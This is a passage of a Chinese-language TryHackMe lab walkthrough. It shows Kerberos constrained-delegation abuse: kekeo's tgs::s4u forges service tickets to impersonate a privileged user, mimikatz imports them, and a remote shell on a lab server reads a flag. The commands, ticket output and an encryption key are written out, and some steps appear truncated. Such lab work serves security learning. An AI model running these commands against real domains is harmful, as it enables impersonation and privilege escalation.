```

看见生成了一张tgt

```
TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
```

根据上面的tgt，请求tgs

参数说明
- tgt - 我们提供在上一步中生成的TGT 。
- user - 我们要模拟的用户。由于 t2_ 帐户对工作站具有管理访问权限，因此可以安全地假设 t1_ 帐户对服务器具有管理访问权限，因此请选择您要模拟的 t1_ 帐户。
- service - 我们要使用委托来模拟的服务。我们首先为HTTP服务生成一个 TGS 。然后我们可以为 WSMAN 服务重新运行相同的命令。

```
kekeo # tgs::s4u /tgt:TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi /user:t1_trevor.jones /service:htt
p/THMSERVER1.za.tryhackme.loc
Ticket  : TGT_svcIIS@ZA.TRYHACKME.LOC_krbtgt~za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
  [krb-cred]     S: krbtgt/za.tryhackme.loc @ ZA.TRYHACKME.LOC
  [krb-cred]     E: [00000012] aes256_hmac
  [enc-krb-cred] P: svcIIS @ ZA.TRYHACKME.LOC
  [enc-krb-cred] S: krbtgt/za.tryhackme.loc @ ZA.TRYHACKME.LOC
  [enc-krb-cred] T: [8/12/2022 5:26:27 AM ; 8/12/2022 3:26:27 PM] {R:8/19/2022 5:26:27 AM}
  [enc-krb-cred] F: [40e10000] name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
  [enc-krb-cred] K: ENCRYPTION KEY 18 (aes256_hmac      ): cbf2869f6ee1b270c02f3357441243e499dbe707779e9fb3fa2bd540637dfb8a
  [s4u2self]  t1_trevor.jones
[kdc] name: THMDC.za.tryhackme.loc (auto)
[kdc] addr: 10.200.83.101 (auto)
  > Ticket in file 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_svcIIS@ZA.TRYHACKME.LOC.kirbi'
Service(s):
  [s4u2proxy] http/THMSERVER1.za.tryhackme.loc
  > Ticket in file 'TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi'

```

由结果可见生成了两张tgs
```
TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_svcIIS@ZA.TRYHACKME.LOC.kirbi
TGS_t1_trevor.jones@ZA.TRYHACKME.LOC_http~THMSERVER1.za.tryhackme.loc@ZA.TRYHACKME.LOC.kirbi
```

用mimikatz导入上面的两张tgs,然后退出mimikatz

```
PS C:\> C:\Tools\mimikatz_trunk\x64\mimikatz.exe                                                                                                                             
  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/
Privilege '20' OK
 

[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> whoami
[thmserver1.za.tryhackme.loc]: PS C:\Users\t1_trevor.jones\Documents> cd c:/users/administrator/desktop
[thmserver1.za.tryhackme.loc]: PS C:\users\administrator\desktop> ls
[thmserver1.za.tryhackme.loc]: PS C:\users\administrator\desktop> type flag2.txt